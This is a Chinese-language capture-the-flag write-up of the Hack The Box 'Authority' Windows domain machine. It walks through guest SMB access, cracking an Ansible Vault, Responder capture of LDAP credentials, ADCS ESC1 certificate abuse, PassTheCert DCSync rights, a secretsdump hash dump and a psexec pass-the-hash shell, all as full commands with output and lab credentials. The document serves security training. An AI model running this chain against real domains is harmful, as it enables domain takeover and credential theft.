


## 00. 摘要

> 关键词：Guest账户、LDAP、WINRM、ADCS、ESC1提权、PassTheCert

1. 使用 `Guest` 账户枚举SMB服务，破解 `Ansible Vault` 拿到 `pwm_admin_password`
2. 使用网站后台的 `Test LDAP Profile` 功能发起LDAP强制认证，拿到 `svc_ldap` 账户
3. 使用 `svc_ldap` 账户枚举ADCS服务，发现存在 ESC1 漏洞
4. 通过 `PassTheCert` 成功提权到 `Administrator`

## 01. 信息收集

使用 `rustscan` 进行端口扫描，发现如下开放端口

```bash
kali@kali[~]$ rustscan -u 5000 -a 10.10.11.222
.----. .-. .-. .----..---.  .----. .---.   .--.  .-. .-.
| {}  }| { } |{ {__ {_   _}{ {__  /  ___} / {} \ |  `| |
| .-. \| {_} |.-._} } | |  .-._} }\     }/  /\  \| |\  |
`-' `-'`-----'`----'  `-'  `----'  `---' `-'  `-'`-' `-'
The Modern Day Port Scanner.
________________________________________
: http://discord.skerritt.blog         :
: https://github.com/RustScan/RustScan :
 --------------------------------------
RustScan: Making sure 'closed' isn't just a state of mind.

[~] The config file is expected to be at "/home/player/.rustscan.toml"
[~] Automatically increasing ulimit value to 5000.
Open 10.10.11.222:53
Open 10.10.11.222:80
Open 10.10.11.222:88
Open 10.10.11.222:139
Open 10.10.11.222:135
Open 10.10.11.222:389
Open 10.10.11.222:445
Open 10.10.11.222:464
Open 10.10.11.222:593
Open 10.10.11.222:636
Open 10.10.11.222:5985
Open 10.10.11.222:3268
Open 10.10.11.222:3269
Open 10.10.11.222:9389
Open 10.10.11.222:8443
Open 10.10.11.222:47001
Open 10.10.11.222:49664
Open 10.10.11.222:49667
Open 10.10.11.222:49665
Open 10.10.11.222:49666
Open 10.10.11.222:49673
Open 10.10.11.222:49691
Open 10.10.11.222:49690
Open 10.10.11.222:49694
Open 10.10.11.222:49693
Open 10.10.11.222:49697
Open 10.10.11.222:49705
Open 10.10.11.222:56467
```

## 02. HTTP服务

从以上端口扫描结果，可以看到有HTTP服务开放。访问 `80` 端口，只有一个IIS页面，没有其它线索。访问 `8443` 端口，发现是 PWM 的登录页面 (这是一个开源的 LDAP 密码管理应用，帮助用户通过 web 界面自行管理密码，支持密码重置、策略执行，为组织提供灵活、安全的密码管理解决方案)。相当于是 keepass 之类的密码管理工具。

在这个登录页面暂时没有线索，我们先尝试枚举一下其它服务。

## 03. 使用Guest账户枚举 SMB服务

在没有任何账户的情况下，尝试使用Windows内置的Guest账户枚举SMB文件共享

```bash
kali@kali[~]$ netexec smb 10.10.11.222 -u "Guest" -p "" --shares
SMB         10.10.11.222    445    AUTHORITY        [*] Windows 10 / Server 2019 Build 17763 x64 (name:AUTHORITY) (domain:authority.htb) (signing:True) (SMBv1:False)
SMB         10.10.11.222    445    AUTHORITY        [+] authority.htb\Guest: 
SMB         10.10.11.222    445    AUTHORITY        [*] Enumerated shares
SMB         10.10.11.222    445    AUTHORITY        Share           Permissions     Remark
SMB         10.10.11.222    445    AUTHORITY        -----           -----------     ------
SMB         10.10.11.222    445    AUTHORITY        ADMIN$                          Remote Admin
SMB         10.10.11.222    445    AUTHORITY        C$                              Default share
SMB         10.10.11.222    445    AUTHORITY        Department Shares                 
SMB         10.10.11.222    445    AUTHORITY        Development     READ            
SMB         10.10.11.222    445    AUTHORITY        IPC$            READ            Remote IPC
SMB         10.10.11.222    445    AUTHORITY        NETLOGON                        Logon server share 
SMB         10.10.11.222    445    AUTHORITY        SYSVOL                          Logon server share 
```

发现可以使用Guest账户访问SMB共享，并且对 `Development` 目录有可读权限。从该目录中找到含有加密密码的 `/Automation/Ansible/PWM/defaults/main.yml` 文件。

```bash
kali@kali[~]$ impacket-smbclient Guest@10.10.11.222 -no-pass
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

Type help for list of commands
# use Development
# cat /Automation/Ansible/PWM/defaults/main.yml
---
pwm_run_dir: "{{ lookup('env', 'PWD') }}"

pwm_hostname: authority.htb.corp
pwm_http_port: "{{ http_port }}"
pwm_https_port: "{{ https_port }}"
pwm_https_enable: true

pwm_require_ssl: false

pwm_admin_login: !vault |
          $ANSIBLE_VAULT;1.1;AES256
          32666534386435366537653136663731633138616264323230383566333966346662313161326239
          6134353663663462373265633832356663356239383039640a346431373431666433343434366139
          35653634376333666234613466396534343030656165396464323564373334616262613439343033
          6334326263326364380a653034313733326639323433626130343834663538326439636232306531
          3438

pwm_admin_password: !vault |
          $ANSIBLE_VAULT;1.1;AES256
          31356338343963323063373435363261323563393235633365356134616261666433393263373736
          3335616263326464633832376261306131303337653964350a363663623132353136346631396662
          38656432323830393339336231373637303535613636646561653637386634613862316638353530
          3930356637306461350a316466663037303037653761323565343338653934646533663365363035
          6531

ldap_uri: ldap://127.0.0.1/
ldap_base_dn: "DC=authority,DC=htb"
ldap_admin_password: !vault |
          $ANSIBLE_VAULT;1.1;AES256
          63303831303534303266356462373731393561313363313038376166336536666232626461653630
          3437333035366235613437373733316635313530326639330a643034623530623439616136363563
          34646237336164356438383034623462323531316333623135383134656263663266653938333334
          3238343230333633350a646664396565633037333431626163306531336336326665316430613566
          3764
```

经过一番搜索，发现该哈希是通过Ansible Vault加密的数据。可以使用 `ansible2john` 将该哈希转为可以被爆破的形式，并且通过哈希爆破得到密钥，使用得到的密钥即可解密数据得到用户的明文密码。

![[Authority-ansible-decrypt.png]]

我们得到了管理员的密码
```
password: pWm_@dm!N_!23
```

## 04. 使用LDAP强制认证窃取密码

我们回到Web页面。点击 `Configuration Editor` 使用上一步拿到的密码成功登入配置页面。我们在配置页面中，找到一处可以发起 LDAP 认证的功能。我们在此处新建一个URL，地址为攻击机responder的地址。然后我们开启攻击机的responder，再点击网页上的Test LDAP Profile。就可以捕获到受害机向攻击机发起的LDAP认证数据。

注：此处LDAP使用389端口，是因为389端口是明文流量，认证信息会被明文传输。

![[Authority-HTTP-PWM.png]]

```bash
kali@kali[~]$ sudo responder -I tun0 -v
                                         __
  .----.-----.-----.-----.-----.-----.--|  |.-----.----.
  |   _|  -__|__ --|  _  |  _  |     |  _  ||  -__|   _|
  |__| |_____|_____|   __|_____|__|__|_____||_____|__|
                   |__|

           NBT-NS, LLMNR & MDNS Responder 3.1.5.0

<省略...>

[+] Listening for events...

[LDAP] Attempting to parse an old simple Bind request.
[LDAP] Cleartext Client   : 10.10.11.222
[LDAP] Cleartext Username : CN=svc_ldap,OU=Service Accounts,OU=CORP,DC=authority,DC=htb
[LDAP] Cleartext Password : lDaP_1n_th3_cle4r!
[LDAP] Attempting to parse an old simple Bind request.
[LDAP] Cleartext Client   : 10.10.11.222
[LDAP] Cleartext Username : CN=svc_ldap,OU=Service Accounts,OU=CORP,DC=authority,DC=htb
[LDAP] Cleartext Password : lDaP_1n_th3_cle4r!
```

可以看到我们成功通过 `responder` 捕获到了 `svc_ldap` 用户的密码。

```
username: svc_ldap
password: lDaP_1n_th3_cle4r!
```

使用该账户进一步枚举，发现该账户有WINRM服务的权限和LDAPS服务的权限

```bash
kali@kali[~]$ netexec winrm 10.10.11.222 -u 'svc_ldap' -p 'lDaP_1n_th3_cle4r!' 
WINRM       10.10.11.222    5985   AUTHORITY        [*] Windows 10 / Server 2019 Build 17763 (name:AUTHORITY) (domain:authority.htb)
WINRM       10.10.11.222    5985   AUTHORITY        [+] authority.htb\svc_ldap:lDaP_1n_th3_cle4r! (Pwn3d!)

kali@kali[~]$ netexec ldap 10.10.11.222 -u 'svc_ldap' -p 'lDaP_1n_th3_cle4r!' 
SMB         10.10.11.222    445    AUTHORITY        [*] Windows 10 / Server 2019 Build 17763 x64 (name:AUTHORITY) (domain:authority.htb) (signing:True) (SMBv1:False)
LDAPS       10.10.11.222    636    AUTHORITY        [+] authority.htb\svc_ldap:lDaP_1n_th3_cle4r!
```

## 05. ESC1+PassTheCert提权

由于该机器存在LDAPS服务，并且 `svc_ldap` 有权限访问LDAPS服务。我们尝试使用该用户枚举并寻找ADCS服务是否存在以及是否有漏洞。

```bash
kali@kali[~]$ certipy-ad find -u 'svc_ldap' -p 'lDaP_1n_th3_cle4r!' -dc-ip 10.10.11.222 -stdout -vulnerable
Certipy v4.8.2 - by Oliver Lyak (ly4k)

<省略...>
[*] Enumeration output:
Certificate Authorities
  0
    CA Name                             : AUTHORITY-CA
    DNS Name                            : authority.authority.htb
    Certificate Subject                 : CN=AUTHORITY-CA, DC=authority, DC=htb
<省略...>
Certificate Templates
  0
    Template Name                       : CorpVPN
    Display Name                        : Corp VPN
    Certificate Authorities             : AUTHORITY-CA
    Enabled                             : True
[4] Client Authentication               : True
    Enrollment Agent                    : False
    Any Purpose                         : False
[5] Enrollee Supplies Subject           : True
    Certificate Name Flag               : EnrolleeSuppliesSubject
    Enrollment Flag                     : AutoEnrollmentCheckUserDsCertificate
                                          PublishToDs
                                          IncludeSymmetricAlgorithms
    Private Key Flag                    : ExportableKey
[4] Extended Key Usage                  : Encrypting File System
                                          Secure Email
                                          Client Authentication
                                          Document Signing
                                          IP security IKE intermediate
                                          IP security use
                                          KDC Authentication
[2] Requires Manager Approval           : False
    Requires Key Archival               : False
[3] Authorized Signatures Required      : 0
    Validity Period                     : 20 years
    Renewal Period                      : 6 weeks
    Minimum RSA Key Length              : 2048
    Permissions
      Enrollment Permissions
[1]     Enrollment Rights               : AUTHORITY.HTB\Domain Computers
                                          AUTHORITY.HTB\Domain Admins
                                          AUTHORITY.HTB\Enterprise Admins
      Object Control Permissions
        Owner                           : AUTHORITY.HTB\Administrator
        Write Owner Principals          : AUTHORITY.HTB\Domain Admins
                                          AUTHORITY.HTB\Enterprise Admins
                                          AUTHORITY.HTB\Administrator
        Write Dacl Principals           : AUTHORITY.HTB\Domain Admins
                                          AUTHORITY.HTB\Enterprise Admins
                                          AUTHORITY.HTB\Administrator
        Write Property Principals       : AUTHORITY.HTB\Domain Admins
                                          AUTHORITY.HTB\Enterprise Admins
                                          AUTHORITY.HTB\Administrator
    [!] Vulnerabilities
      ESC1                              : 'AUTHORITY.HTB\\Domain Computers' can enroll, enrollee supplies subject and template allows client authentication
```

从枚举结果可知，可以使用 `Domain Computers` 进行 `ESC1` 攻击，让我们详细分析下，为什么我们可以使用 ESC1 攻击：

ESC1攻击所需要的前提条件为
1. Enterprise CA授予低权限账户注册权
2. Manager approval处于关闭状态(这样申请的证书就会自动通过，而不需要管理人员手动批准)
3. 不需要授权签名
4. Certificate Template定义了启用身份认证的 EKU。
5. Certificate Template允许请求者在 `CSR` 中指定 `subjectAltName (SAN)` (这一步可以让攻击者自行指定证书的"主体信息"。也就是说攻击者可以声明这张证书的主体是"Administrator"，那么攻击者使用这张证书向域控发起身份认证的时候，域控就会认为攻击者是"Administrator")。

从`certipy`的扫描结果我们可以看到已经几乎满足 ESC1 攻击的条件(为方便阅读，我将每一条对应条件都使用编号的形式标记在了上面的扫描结果中)
1. 注册权(Enrollment Rights) --> 不满足
2. Manager approval处于关闭状态(Requires Manager Approval--> False)
3. 不需要授权签名(Authorized Signature Required --> 0)
4. 启用客户端认证(Client Authentication --> True) 或者 扩展密钥使用客户端认证(Extended Key Usage --> Client Authentication).
5. 允许请求者在 `CSR` 中指定 `(SAN)`(Enrollee Supplies Subject --> True)

根据分析可知，由于我们控制的只是普通的 `Domain User` 域用户，不具备注册权。那么有没有另一种办法可以进行证书注册呢？

有的，我们可以创建一个计算机账户（域用户通常都会具有创建计算机账户的权限）

```bash
kali@kali[~]$ impacket-addcomputer 'authority.htb'/'svc_ldap':'lDaP_1n_th3_cle4r!' -method LDAPS -computer-name 'Machine01$' -computer-pass 'MyPassword123!' -dc-ip 10.10.11.222
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[*] Successfully added machine account Machine01$ with password MyPassword123!.
```

由于计算机账户也就是 `Domain Computers` 组成员，具有注册权，我们可以使用刚注册的机器账户进行 ESC1 攻击，接下来我们利用ESC1漏洞提权到 `Administrator` 权限

```bash
kali@kali[~]$ certipy-ad req -u 'Machine01$' -p 'MyPassword123!' -ca AUTHORITY-CA -dc-ip 10.10.11.222 -template CorpVPN -upn Administrator
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Requesting certificate via RPC
[*] Successfully requested certificate
[*] Request ID is 17
[*] Got certificate with UPN 'Administrator'
[*] Certificate has no object SID
[*] Saved certificate and private key to 'administrator.pfx'

kali@kali[~]$ certipy-ad auth -pfx administrator.pfx -username Administrator -domain authority.htb -dc-ip 10.10.11.222
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Using principal: administrator@authority.htb
[*] Trying to get TGT...
[-] Got error while trying to request TGT: Kerberos SessionError: KDC_ERR_PADATA_TYPE_NOSUPP(KDC has no support for padata type)
```

等等，怎么会有个报错？`KDC_ERR_PADATA_TYPE_NOSUPP`

在查阅资料后发现，这个报错意味着 ADCS 服务器不支持 PKINIT。根据微软文档，我们可以看到更详细的解释

| Error                        | Description                                                  | Possible causes                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                            |
| ---------------------------- | ------------------------------------------------------------ | ------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------ |
| `KDC_ERR_PADATA_TYPE_NOSUPP` | KDC has no support for PADATA type (pre-authentication data) | Smart card logon is being attempted and the proper certificate cannot be located. This problem can happen because the wrong certification authority (CA) is being queried or the proper CA cannot be contacted in order to get Domain Controller or Domain Controller Authentication certificates for the domain controller. It can also happen when a domain controller doesn't have a certificate installed for smart cards (Domain Controller or Domain Controller Authentication templates).<br><br>正在尝试智能卡登录，但找不到正确的证书。发生此问题的原因可能是查询了错误的证书颁发机构 (CA)，或者无法联系正确的 CA 以获取域控制器的域控制器或域控制器身份验证证书。当域控制器没有安装智能卡证书（域控制器或域控制器身份验证模板）时，也可能会发生这种情况。 |

单个证书可以包含多个EKU(Extended Key Usages)。为了使KDC启用智能卡登录，证书必须包含 `Smart Card Logon` EKU。如果 PKINIT 失败，可能表明我们正在连接的目标KDC（密钥分发中心）缺少包含必要扩展密钥用法（EKU）的证书。

在这种情况下，我们获得的证书变得无法用于获取 `Ticket Granting Ticket` 或 `NT hash` 。

那么这种情况下，还有办法提权吗？

有的，我们可以使用 PassTheCert 攻击。

在 Active Directory 中，我们可以使用 `Kerberos` 或 `Schannel` 进行身份验证。默认情况下， `Schannel` 支持多种协议，但仅通过 `LDAPS` 协议进行身份验证。

`LDAPS` 是一种广泛使用的协议，可以通过 `SSL/TLS` 使用 `Schannel` 进行用户身份验证。该过程涉及在 SSL/TLS 握手期间提供有效证书，以验证与域控制器的连接。 PassTheCert 攻击允许我们通过 LDAPS 使用有效证书进行身份验证。

目前， `PassTheCert` 可以用于四种攻击：
1. 授予指定用户DCSync权限，需要证书具有对域的 `WriteDacl` 权限
2. 修改机器账户的 `msDS-AllowedToActOnBehalfOfOtherIdentity` 属性以进行 `RBCD` 攻击
3. 添加一个机器账户
4. 修改指定账户的密码，需要证书具有对指定账户的 `User-Force-Change-Password` 权限

由于我们已经生成了具有 Administrator账户权限的证书。我们可以使用第一种攻击，也就是给指定用户添加DCSync权限。

`PassTheCert` 使用的认证机制涉及证书的私钥和公钥，这些密钥存储在 `.pfx` 文件中。

可以使用 `certipy` 提取私钥和公钥文件：
```bash
kali@kali[~]$ certipy-ad cert -pfx administrator.pfx -nocert -out administrator.key
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Writing private key to 'administrator.key'

kali@kali[~]$ certipy-ad cert -pfx administrator.pfx -nokey -out administrator.crt
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Writing certificate and  to 'administrator.crt'
```

现在我们使用 `passthecert` 攻击，给 `svc_ldap` 账户添加 `DCSync` 权限(当然，给之前创建的机器账户添加DCSync权限也可以实现相同效果)

```bash
kali@kali[~]$ passthecert -dc-ip 10.10.11.222 -crt administrator.crt -key administrator.key -domain authority.htb -port 636 -action modify_user -target svc_ldap -elevate  
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[*] Granted user 'svc_ldap' DCSYNC rights!
```

现在我们可以使用DCSync攻击获取所有域用户的哈希

```bash
kali@kali[~]$ impacket-secretsdump 'authority.htb'/'svc_ldap':'lDaP_1n_th3_cle4r!'@10.10.11.222
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[-] RemoteOperations failed: DCERPC Runtime Error: code: 0x5 - rpc_s_access_denied 
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
Administrator:500:aad3b435b51404eeaad3b435b51404ee:6961f422924da90a6928197429eea4ed:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:bd6bd7fcab60ba569e3ed57c7c322908:::
svc_ldap:1601:aad3b435b51404eeaad3b435b51404ee:6839f4ed6c7e142fed7988a6c5d0c5f1:::
AUTHORITY$:1000:aad3b435b51404eeaad3b435b51404ee:9340b9733718df40f039f632d69df42c:::
Machine01$:11602:aad3b435b51404eeaad3b435b51404ee:e1a0227f73dd648c1f7ab8c8bf3e9786:::
[*] Kerberos keys grabbed
Administrator:aes256-cts-hmac-sha1-96:72c97be1f2c57ba5a51af2ef187969af4cf23b61b6dc444f93dd9cd1d5502a81
Administrator:aes128-cts-hmac-sha1-96:b5fb2fa35f3291a1477ca5728325029f
Administrator:des-cbc-md5:8ad3d50efed66b16
krbtgt:aes256-cts-hmac-sha1-96:1be737545ac8663be33d970cbd7bebba2ecfc5fa4fdfef3d136f148f90bd67cb
krbtgt:aes128-cts-hmac-sha1-96:d2acc08a1029f6685f5a92329c9f3161
krbtgt:des-cbc-md5:a1457c268ca11919
svc_ldap:aes256-cts-hmac-sha1-96:3773526dd267f73ee80d3df0af96202544bd2593459fdccb4452eee7c70f3b8a
svc_ldap:aes128-cts-hmac-sha1-96:08da69b159e5209b9635961c6c587a96
svc_ldap:des-cbc-md5:01a8984920866862
AUTHORITY$:aes256-cts-hmac-sha1-96:3c5169afc9d8725a657ab0bd670b4efc0088a04c3224c83239b8ecd1fb1c436c
AUTHORITY$:aes128-cts-hmac-sha1-96:b14358b4851a568f2bbecc5afa55113e
AUTHORITY$:des-cbc-md5:917c983475cb57a2
Machine01$:aes256-cts-hmac-sha1-96:58e5d17a1df50e2eb655b20bddae63798d03d4cfe7e31d06cc9155259af3149d
Machine01$:aes128-cts-hmac-sha1-96:a0d66f599a3fec2a8911061f4f38c3fe
Machine01$:des-cbc-md5:38a4fb80b301c4f7
[*] Cleaning up... 
```

最后我们使用拿到的 `Administrator` 账户的哈希，通过PTH的方式，使用`psexec`登上受害机。 

```bash
kali@kali[~]$ impacket-psexec 'administrator@authority.htb' -hashes aad3b435b51404eeaad3b435b51404ee:6961f422924da90a6928197429eea4ed
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[*] Requesting shares on authority.htb.....
[*] Found writable share ADMIN$
[*] Uploading file rMcuMxvt.exe
[*] Opening SVCManager on authority.htb.....
[*] Creating service FFyi on authority.htb.....
[*] Starting service FFyi.....
[!] Press help for extra shell commands
Microsoft Windows [Version 10.0.17763.4644]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32>
```

---
# 参考链接
1. 文章：使用Guest账户访问SMB
   https://book.hacktricks.wiki/en/network-services-pentesting/pentesting-smb/index.html#list-shared-folders
2. 文章：通过MSSQL的xp_dirtree窃取NetNTLM hash
   https://book.hacktricks.wiki/en/network-services-pentesting/pentesting-mssql-microsoft-sql-server/index.html#steal-netntlm-hash--relay-attack
3. 文章：ADCS ESC1攻击
   https://www.thehacker.recipes/ad/movement/adcs/certificate-templates#esc1-template-allows-san
4. 文章：PassTheCert攻击
   https://www.thehacker.recipes/ad/movement/schannel/passthecert
5. 工具：NetExec
   https://github.com/Pennyw0rth/NetExec
5. 工具：Impacket
   https://github.com/fortra/impacket
6. 工具：evil-winrm
   https://github.com/Hackplayers/evil-winrm
7. 工具：RustScan
   https://github.com/RustScan/RustScan
8. 工具：Responder
   https://github.com/SpiderLabs/Responder
9. 工具：Certipy
   https://github.com/ly4k/Certipy
10. 工具：John the Ripper
    https://github.com/openwall/john
11. 工具：passthecert
    https://github.com/AlmondOffSec/PassTheCert

